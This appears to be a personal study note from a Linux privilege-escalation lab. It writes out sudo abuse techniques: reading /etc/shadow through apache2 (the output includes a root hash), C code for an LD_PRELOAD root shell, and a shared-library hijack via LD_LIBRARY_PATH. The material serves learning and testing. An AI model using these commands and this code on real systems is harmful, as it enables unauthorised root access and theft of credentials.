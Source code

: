 #priv_esc #Linux

```embed
title: "GTFOBins"
image: "https://gtfobins.github.io/assets/logo.png"
description: ""
url: "https://gtfobins.github.io/"
```
### Use apache2 to read /etc/shadow
```
user@debian:~$ sudo /usr/sbin/apache2 -f /etc/shadow

Syntax error on line 1 of /etc/shadow:
Invalid command 

'root:$6$Jkw8Ekqry9YO.eQ$5kMabK0diFMC94tKy0vGkL1WVEWrVfJP0FPoTOGAEneB5N12dR0P6cDVdCnBRml0/426nRKEzxL4N6QR2P9Fe1:17298:0:99999:7:::'

, perhaps misspelled or defined by a module not included in the server configuration
```

### Sudo Environment Variables
[[Priv_esc_cheatcodes]]
LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

`gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c`
```

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

- Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

`sudo LD_PRELOAD=/tmp/preload.so program-name-here`

- see which shared libraries are used by the program:

`ldd /usr/sbin/apache2`

- Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

`gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c`

- Run apache2 using sudo, while settings the LD_LIBRARY_PATH environment variable to /tmp (where we output the compiled shared object):

`sudo LD_LIBRARY_PATH=/tmp apache2`